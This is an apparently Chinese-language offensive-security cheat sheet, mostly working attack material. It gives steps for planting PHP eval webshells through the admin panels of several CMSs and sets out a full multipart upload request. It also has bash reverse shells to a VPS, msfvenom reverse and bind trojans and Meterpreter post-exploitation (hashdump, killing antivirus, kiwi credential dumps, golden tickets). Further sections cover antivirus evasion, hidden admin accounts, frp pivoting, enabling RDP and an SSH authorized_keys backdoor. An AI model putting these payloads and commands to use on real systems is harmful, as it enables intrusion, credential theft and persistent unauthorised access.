

用蚁剑连接


如果想要转到vps上，那就再模板里添加命令

<?=system("bash -c 'bash -i >& /dev/tcp/vps/port 0>&1' ");?>


点击预览

就成功getshell了


### 行云cms-后台上传文件

点击`系统设置`>>`网站设置`，在`站点描述`内插入一句话木马`<?=eval($_POST['pass']);?>`后点击`保存`：



### Typesetter CMS-后台上传文件

发现存活主机开放80端口，使用火狐浏览器尝试访问：


判断网站为`Typesetter CMS`，点击`login`：


弱口令`admin/admin`登录成功：

上传文件：


在`Win10攻击机`桌面新建`shell.php`文件，内容为`<?php @eval($_POST['cmd']);?>`：


将`shell.php`文件压缩为`shell.zip`文件，双击`file`，右键空白处点击`Upload files`：

将shell.zip通过拖拽的方式上传：


上传成功解压：



### 某CMS利用密钥获取webshell

获取目标密钥：

```
http://192.168.100.200/base/post.php

act=appcode
```


将密钥（k后面的值）与a进行拼接：

```
e2e6137724990904cb967e5305ff4b09a
```

将此值进行MD5加密得到值：

```
dfb346c405ac03be38edd82c62236b87
```

构造webshell：

```
POST /base/appfile.php HTTP/1.1
Host: 192.168.100.200
Cache-Control: max-age=0
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCznr39h1oUlUvOGG
Accept: */*
Referer: http://192.168.100.200/base/appfile.php
Accept-Language: zh-cn
Cookie: Hm_lvt_a93ba41c8cfa578d8fa3f514694f399b=1570960058;
Host: 192.168.100.200
Content-Length: 726


------WebKitFormBoundaryCznr39h1oUlUvOGG
Content-Disposition: form-dAta;name='file';fIlename='configs.php'
Content-Type: application/octet-stream

<?php @eval($_POST[pass]);?>
------WebKitFormBoundaryCznr39h1oUlUvOGG
Content-Disposition: form-data; name='t'

a
------WebKitFormBoundaryCznr39h1oUlUvOGG
Content-Disposition: form-data; name='m'

dfb346c405ac03be38edd82c62236b87
------WebKitFormBoundaryCznr39h1oUlUvOGG
Content-Disposition: form-data; name='act'

upload
------WebKitFormBoundaryCznr39h1oUlUvOGG
Content-Disposition: form-data; name='r_size'

28
------WebKitFormBoundaryCznr39h1oUlUvOGG
Content-Disposition: form-data; name='submit'

getshell
------WebKitFormBoundaryCznr39h1oUlUvOGG--
```

回到网站主页：


刷新火狐浏览器，点击`Forward`过滤数据包，找到网站的Get请求数据包：


将webshell进行覆盖：



将改造过的数据包发送到`Repeater`：


进入`Repeater`，点击`Go`，上传webshell：



显示`OK`表示上传成功，启动蚁剑工具：


添加shell URL：


shell信息如下：

```
Shell url:http://192.168.100.200/effect/source/bg/configs.php

Shell pwd:pass
```

### DeDeCMS-后台getshell

发现uploads目录，判断dedecms为默认安装，尝试访问后台：

```
http://192.168.1.100/dede/uploads/dede
```


尝试使用弱口令`admin/admin`登录，登录成功：


查看DeDeCMS的版本，发现是V5.7版本，该版本存在文件上传漏洞：

点击`文件式管理器`>>`文件上传`（若无反应请网站加载完成后再次尝试）：


点击`选择文件`>>`shell.php`>>`打开(O)`：点击`上传文件`

后门文件上传成功：


URL：http://192.168.1.100/dede/uploads/uploads/shell.php

密码：rebeyond

### 74骑士CMS-后台上传文件

点击`系统`，`网站域名`输入`http://127.0.0.1/.',eval($_POST[cmd]),'/.com`：


点击`保存修改`：


启动蚁剑工具：


添加shell：


shell信息如下：

```
URL地址：http://192.168.1.150/74cms/upload/index.php?m=admin

连接密码：cmd
```

### PHPOKcms-后台上传文件

该cms除了下面的方法，还可以通过管理-设置文件管理-更改上传文件的种类，添加php

点击`模块管理`->`模块导入`->`选中本地文件`，文件选中桌面shell文件夹内的`shell.zip`文件：


该版本cms存在漏洞会将zip上传到网站`data\cache`目录下，同时将里面内容解压出来。

进入`/root/Desktop/Tools/AntSword`目录，右键打开终端，执行命令启动蚁剑：

```
./AntSword
```

右键空白处点击`Add`，shell信息如下：

```
Shell url:http://192.168.2.100/data/cache/shell.php

Shell pwd:cmd
```


# 外网webshell

## AntSword

可以连接数据库等

## behinder

可以生成webshell

## Godzilla

可以生成webshell

## webshell生成器

可以生成webshell


# 两大综合工具

## CS工具


## msf工具

### 渗透

```bash
msfdb run # 启动数据库并启动 msfconsole

# msfvenom 生成木马
# 生成exe反向连接木马
msfvenom -p windows/meterpreter/reverse_tcp LHOST=182.92.161.222 LPORT=4444 -f exe -o win_re_x64.exe
# 生成exe正向连接木马
msfvenom -p windows/x64/meterpreter/bind_tcp LHOST=182.92.161.222 LPORT=4444 -f exe -o win_bind_x64.exe
# 生成elf正向连接木马 
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=182.92.161.222 LPORT=4444 -f elf -o linux_re_x64
# 生成elf正向连接木马
msfvenom -p linux/x64/meterpreter/bind_tcp LHOST=182.92.161.222 LPORT=4444 -f elf -o linux_bind_x64
# msi木马
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.100.10 lport=4444 -f msi -o eval.msi

# web_delivery模块进行出网投送，一般配合计划任务执行
use exploit/multi/script/web_delivery
set target 6    # 选择目标系统
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.168.1.7
set lport 4444
exploit

# 添加路由
# 内网中添加路由主要是充当跳板功能， 其实是MSF框架中自带的一个路由转发功能，其实现过程就是MSF框架在已经获取的meterpreter shell的基础上添加一条去往内网的路由，此路由的下一跳转发，即网关，是MSF攻击平台与被攻击目标建立的一个session会话
# 通过msf添加路由功能，可以直接使用msf去访问原本不能直接访问的内网资源，只要路由可达了，那么我们使用msf的强大功能，想干什么就干什么了
run get_local_subnets # 获取目标内网相关信息
run post/multi/manage/autoroute # 添加自动路由
run autoroute -s 10.0.20.0/24 # 配置静态路由
run autoroute -p # 查看路由表
windows


use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
set lport  7777
set lhost  172.16.1.10
run
```

**linux bash上线** 

```bash
use exploit/multi/handler
set payload  cmd/unix/reverse_bash
set lport  7777
set lhost  172.16.1.10
run

# 肉鸡执行bash 反弹shell
bash -i >& /dev/tcp/172.16.1.10/7777 0>&1

# 之后再 Ctrl^Z  Y 将sessions置入后台
# 将shell转为meterpreter
use post/multi/manage/shell_to_meterpreter
set lhost   172.16.1.10
set lport   7777
set session 1
run
```

### session构建后的利用

```bash
getsystem # 提升为system权限
sysinfo # 查看主机信息
getuid #命令可以获取当前用户的信息
pwd     #查看当前目录
cd      #切换目标目录；
cat     #读取文件内容；
rm      #删除文件；
edit    #使用vim编辑文件
ls      #获取当前目录下的文件；
mkdir   #新建目录；
rmdir   #删除目录； 
hashdump # 用户哈希

# 进程迁移提权
ps # 获取目标主机正在运行的进程
migrate <pid> # 进程迁移，将shell进程迁移到某个进程里, 例如services.exe
run post/windows/manage/migrate # 自动迁移进程命令

run post/windows/manage/killav # 关闭杀毒软件

# 信息收集
auxiliary/scanner/discovery/arp_sweep    #基于ARP的主机发现
use post/windows/gather/arp_scanner  
auxiliary/scanner/discovery/udp_sweep    #基于udp协议发现内网存活主机
auxiliary/scanner/discovery/udp_probe    #基于udp协议发现内网存活主机
auxiliary/scanner/netbios/nbname         #基于netbios协议发现内网存活主机
auxiliary/scanner/portscan/tcp           #基于tcp进行端口扫描(1-10000)，如果开放了端口，则说明该主机存活

# msf派生cs会话
# 使用payload-inject把msf的对话派生给cs
use exploit/windows/local/payload_inject
set PAYLOAD windows/meterpreter/reverse_http
set DisablePayloadHandler true
set LHOST 192.168.1.5
set LPORT 5555
set SESSION 2
run

# linux中获取shell的一些方法
python -c 'import pty;pty.spawn("/bin/bash")'
script -qc /bin/bash /dev/null
/bin/sh -i


# jobs
jobs -l # 列出后台运行的程序
kill <id> # 关闭job

# 获取自动登录用户密码
run windows/gather/credentials/windows_autologin
```

#### kiwi模块

使用kiwi模块需要system权限，所以我们在使用该模块之前需要将当前MSF中的shell提升为system。提到system有两个方法，一是当前的权限是administrator用户，二是利用其它手段先提权到administrator用户。然后administrator用户可以直接getsystem到system权限

```bash
load kiwi # 加载kiwi模块
help kiwi # 查看kiwi使用

creds_all：# 列举所有凭据
creds_kerberos：# 列举所有kerberos凭据
creds_msv：# 列举所有msv凭据
creds_ssp：# 列举所有ssp凭据
creds_tspkg：# 列举所有tspkg凭据
creds_wdigest：# 列举所有wdigest凭据
dcsync：# 通过DCSync检索用户帐户信息
dcsync_ntlm：# 通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：# 创建黄金票据
kerberos_ticket_list：# 列举kerberos票据
kerberos_ticket_purge：# 清除kerberos票据
kerberos_ticket_use：# 使用kerberos票据
kiwi_cmd：# 执行mimikatz的命令，后面接mimikatz.exe的命令
lsa_dump_sam：# dump出lsa的SAM
lsa_dump_secrets：# dump出lsa的密文
password_change：# 修改密码
wifi_list：# 列出当前用户的wifi配置文件
wifi_list_shared：# 列出共享wifi配置文件/编码
```

## MSF与CS联动上线

回到`Kali`主机，在桌面启动终端，执行命令建立监听：

```
msfconsole

use exploit/multi/handler

set payload windows/meterpreter/reverse_http

set lhost 10.11.11.111

set lport 7777

run
```


进入`/root/Desktop/Tools/cs4.2`目录下启动终端，执行命令：

```
./start.sh
```

连接信息如下：

```
Host:127.0.0.1
Port:50050
User:john
Password:123456
```

建立监听：


监听器信息如下：


选中上线主机，右键进行攻击：


选中监听器和攻击方式进行攻击：


攻击成功后获取到目标的system权限：


建立会话，右键新上线的主机点击`Spawn`：


选择监听器：


MSF中获取到会话（若无会话连接请再试一次）：


查看权限：


进入交互终端：


# 信息资产收集

## windows

```shell
ifconfig /all 获取获取域名、IP地址、DHCP服务器、网关、MAC地址、主机名
net time /domain 查看域名、时间
net view /domain 查看域内所有共享
net view ip 查看对方局域网内开启了哪些共享
net config workstation 查看域名、机器名等
net user 用户名 密码 /add 建立用户
net user 用户名 /del #删除用户
net user guest /active:yes 激活guest账户
net user 查看账户
net user 账户名 查看指定账户信息
net user /domain 查看域内有哪些用户，Windows NT Workstation 计算机上可用，由此可以此判断用户是否是域成员。
net user 用户名 /domain 查看账户信息
net group /domain 查看域中的组
net group "domain admins" /domain 查看当前域的管理用户
* query user 查看当前在线的用户
net localgroup 查看所有的本地组
net localgroup administrators 查看administrators组中有哪些用户
net localgroup administrators 用户名 /add 把用户添加到管理员组中
net start 查看开启服务
net start 服务名 开启某服务
net stop 服务名 停止某服务
net share 查看本地开启的共享
net share ipc$ 开启ipc$共享
net share ipc$ /del 删除ipc$共享
net share c$ /del 删除C：共享
dsquery server 查看所有域控制器
dsquery subnet 查看域内内子网
dsquery group 查看域内工作组
dsquery site 查看域内站点
netstat -a 查看开启了哪些端口,常用netstat -an
netstat -n 查看端口的网络连接情况，常用netstat -an
netstat -v 查看正在进行的工作
netstat -p 协议名 例：netstat -p tcq/ip 查看某协议使用情况（查看tcp/ip协议使用情况）
netstat -s 查看正在使用的所有协议使用情况
nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名（03前的为用户名）-注意：参数-A要大写
reg save hklm\sam sam.hive 导出用户组信息、权限配置
reg save hklm\system system.hive 导出SYSKEY
net use \\目标IP\ipc$ 密码 /u:用户名 连接目标机器
at \\目标IP 21:31 c:\server.exe 在某个时间启动某个应用
wmic /node:"目标IP" /password:"123456" /user:"admin" 连接目标机器
psexec.exe \\目标IP -u username -p password -s cmd 在目标机器上执行cmd
finger username @host 查看最近有哪些用户登陆
route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。
arp -a 将显示出全部信息
nslookup IP地址侦测器
tasklist 查看当前进程
taskkill /pid PID数 终止指定PID进程
whoami 查看当前用户及权限
systeminfo 查看计算机信息（版本，位数，补丁情况）
ver 查看计算机操作系统版本
tasklist /svc 查看当前计算机进程情况，可以看杀毒软件是否打开
netstat -ano 查看当前计算机进程情况
wmic product > ins.txt 查看安装软件以及版本路径等信息，重定向到ins.txt
```

抓取注册表Windows 自动登录用户以及密码

```shell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

利用查看域时间命令获取域控主机名

```sh
net time /do
#/do的意思是/domain的缩写，domain即为域
```


域控192.168.100.50   域名称：DC2.bj.jyj.com

查询用户、和域管理员组

```sh
net user /do
```


进行信息收集：


发现存在域：


执行命令探测存活主机：

```
for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.200.%I | findstr "TTL"  >> 1.txt
```


发现存活主机（当结果中显示网关信息时表示探测结束）：


## linux

 [【精选】Linux信息收集、渗透测试常用命令 (ﾟ益ﾟメ) 渗透测试_linux渗透攻击命令-CSDN博客.htm - 快捷方式.lnk](【精选】Linux信息收集、渗透测试常用命令 (ﾟ益ﾟメ) 渗透测试_linux渗透攻击命令-CSDN博客.htm - 快捷方式.lnk) 

操作系统版本

```shell
cat /etc/issue

cat /etc/*-release

cat /etc/lsb-release

cat /etc/redhat/release

getconf LONG_BIT  查看系统位数
```

操作系统的内核版本

```shell
cat /proc/version

uname -a

uname -mrs

rpm -q kernel

dmesg |grep Linux

ls /boot |grep vmlinuz
```

用户相关

```shell
id
who
w
last
cat /etc/passwd
cat /etc/group
cat /etc/shadow
ls -alh /var/mail/
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'   # 列出超级用户
awk -F: '($3 == "0") {print}' /etc/passwd   #列出超级用户
cat /etc/sudoers
sudo -l
```

列主目录

```shell
ls -ahlR /root/
ls -ahlR /home/
```

其他用户的操作记录

```shell
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```

SSH私钥

```shell
cat ~/.ssh/authorized_keys
cat ~/.ssh/identity.pub
cat ~/.ssh/identity
cat ~/.ssh/id_rsa.pub
```

## 数据库配置文件

`config.default.php`

获取数据库地址


获取数据库账号密码


配置文件位置：

`C:/Apache24/htdocs/inc/config.php`


## Windows-flag

```bash
cd c:\\
dir /s /b *flag*
```

## Linux-flag

```bash
find / -name *flag*
```


# 杀软绕过

## 免杀马

进入`C:\Users\Administrator\Desktop\工具\免杀`目录，启动免杀工具：


配置如下，点击`生成`：


保存在桌面：


工具生成两个文件：


在上传的文件所在目录右键打开终端，执行命令：

```
XXX.exe XXX.txt

##XXX表示免杀工具生成文件的前缀
```


## 免杀shellcode

Shellcode免杀测试

测试需要用到：攻击机kali、掩日3.0、虚拟机win10系统

掩日3.0下载安装：https://github.com/1y0n/AV_Evasion_Tool
需要3.x 依赖：
1.64位 Windows 7、8、10 操作系统

2. .net framework 4.0 或更高版本 (Windows 自带)
3. tdm-gcc


启动MSF使用msfvenom生成一个shellcode.c文件出来

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.111.130 LPORT=6666 -f c > /root/sheelcode.c

得到的shellcode.c如下

然后我们使用掩日3.0进行傻瓜式免杀

生成好之后我们先试试各大杀毒平台的静态杀毒扫描检测

以上检测360安全卫士、火绒安全、腾讯管家成功bypass

然后我们运行msf平台监听木马试试各大平台的杀毒动态检测

    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_tcp
    set lhost 192.168.111.130
    set lport 6666
    run

在这里插入图片描述
在这里插入图片描述

##  杀软匹配工具目录

进入杀软匹配工具目录，使用谷歌浏览器打开工具：


将查询结果拷贝到窗口，点击`查询`：



主机存在火绒安全软件，尝试绕过：


## 创建隐藏用户

蚁剑中执行命令创建隐藏用户：

```
cd C:\Windows\System32

copy net1.exe net2.txt

net2.txt user hacker$ admin /add  //添加隐藏用户

net2.txt localgroup administrators hacker$ /add   //加入到管理员组中
```


打开远程桌面，远程登录信息如下：

```
远程地址：192.168.2.100

登录信息：hacker$/admin
```


# 内网渗透挂代理

## shell生成器


## python安装

上传python安装包

在解压的python文件夹下输入指令，并备份文件/usr/local/python3是文件路径

```c
./configure --enable-optimizations --prefix=/usr/local/Python3/ && make && make install
```

```bash
mv /usr/bin/python /usr/bin/python.bak
```

这时候/usr/local 应该有两个文件，python3 和 Python3，Python3下有bin和其他文件夹，可以在文件夹中查看

```shell
cd /usr/bin/
```

```bash
ln -s /usr/local/Python3/bin/python3.8  python3.8
ln -s /usr/local/Python3/bin/pip3.8 pip310
```

## proxychains

配置文件路径

```shell
vim /etc/proxychains4.conf
```

设置公网ip代理


## frp内网穿透的使用

配置时要特别注意，加上[] 的内容，不能有注释

frps.ini

```shell
[common]
bind_port = 7000 
```

frpc.ini

```shell
[common]
tls_enable = true
server_addr = 47.93.47.179
server_port = 7000
protocol = tcp
[proxies]
remote_port = 1234
plugin = socks5
```

多层代理时

1:frps.ini

```shell
[common]
bind_addr = 47.93.47.179(vps地址)
bind_port = 7000 
```

1:frpc.ini (放到端口机器上)

```shell
[common]
tls_enable = true
server_addr = 47.93.47.179(vps地址)
server_port = 7000
protocol = tcp
[proxies]
remote_port = 1234
plugin = socks5
```

2:frps.ini（放在端口机器上）

```shell
[common]
bind_addr = xxx(端口机器地址)
bind_port = 7000 
```

2:frpc.ini (放到内网机器上)

```shell
[common]
tls_enable = true
server_addr = xxx(端口机器地址)
server_port = 7000
protocol = tcp
[proxies]
remote_port = 1234
plugin = socks5
```

设置代理时：选择端口机器ip和端口，设置hosts时选择内网机器ip段

### 挂多层代理

配合端口映射实现多层socks代理

实验环境：内网C主机不能直接连接vps，可以连接内网B主机，B主机可以直接连接vps，所以通过B作为跳板，将socks代理建设在内网C主机中

具体思路：利用B即作为服务端(frps)，也同时作为客户端(frpc)

将B作为服务端2，C作为客户端2；

将vps作为服务端1，B作为客户端1

①内网C主机的frpc.ini设置（代理到B的1080端口）

 

启动C主机的客户端程序：


②内网B主机的frps.ini设置：


启动B主机的服务端程序：


思路分析：

两个启动以后，其实已经可以直接通过使用B主机ip+端口直接使用搭建在C主机的socks代理，但是此时是无法直接访问B主机的，但是B主机出网，所以可以通过将刚刚C连接B的1080端口映射到vps上，通过连接vps+端口使用C主机的socks代理

③内网B主机的frpc.ini设置：（B代理到vps的1080端口）


启动B主机的客户端程序：

④vps的frps.ini设置：


启动VPS的服务端程序：


 

此时只需要连接vps的ip+端口即可使用搭建在内网C主机的socks代理

⑤测试socks代理是否搭建成功：
1.使用proxychain启动nc发起一个请求：


2.利用nc监听端口，看到from是内网C主机的ip发起的，证明搭建成功


## proxifier

profile中设置


注意要设置内网ip，不然挂不上代理


## 开启3389端口

```shell
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

## 开启ssh服务

 公钥上传靶机，私钥留着登录

SSH密钥登陆：

当我们具有写入权限的时候，我们同样可以自行生成密钥。

    ssh-keygen -t rsa //生成公钥
    cat id_rsa.pub > authorized_keys //将id_rsa.pub内容放到目标.ssh/authorized_keys里 


同样可以使用md5来查看值是否一致：


    ssh -i id_rsa root@192.168.45.137 #使用密钥进行登陆 



```shell
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/sJh68RNaZKKjCPhN4YLiJrxx4w7rml0FpTf13X4uJfZEfn2SnlpOkut48MKuDG8KCqw3Em35OhuwTkjwdI/DhF7vRy0tOlmX196bGqzgtNi3V3Pq1ssB35yR/9Hrzf5DtwjKcJvJaWDng56QhGf9gGmouFUAevB7lQiwkME5cqO5lA4pRnJTHvEMNAI1BG710DycJOo+4huLcMV6auK7QwJMgg7J2Se9LJFei6Gh4jbTHdavcAV5zURYxR8ASWJcjcom3gLPA5QcqK3sHDQVk0Pyei4wpBpYiEPiGpyPGf5Oq+QM1BbrGH/NTAbvVkwCfpdEDVuPM5hG8V8sOGN21s9Vk1c1PWhHvX6uz8Qh4MuGgBTXHyYownN87911T5FGEcW9VyHuroEIRmtOlcwAbdLsI45XNKZ4ij1tDK54S2jWYxIN8R/VnRuvEUhMZF9IZl37QnDBpEGnKMqcMQ8puTeBA2x/IDG0Tz1lcTi9XzyZ5ay7xu2pe+buxVOPRCc=" >> /root/.ssh/authorized_keys

chmod 600 /root/.ssh/authorized_keys
```

ssh 公钥免密

(容易被发现)

```undefined
ssh-keygen -t rsa
```

把`id_rsa.pub`写入服务端的`authorized_keys`中

```cobol
chmod 600 ~/.ssh/authorized_keys

chmod 700 ~/.ssh
```

留后门

写公钥留后门

```
#自己的机器上
ssh-keygen -t rsa -b 4096
cat ~/.ssh/id_rsa.pub
#弹的shell
上传id_rsa.pub到靶机上
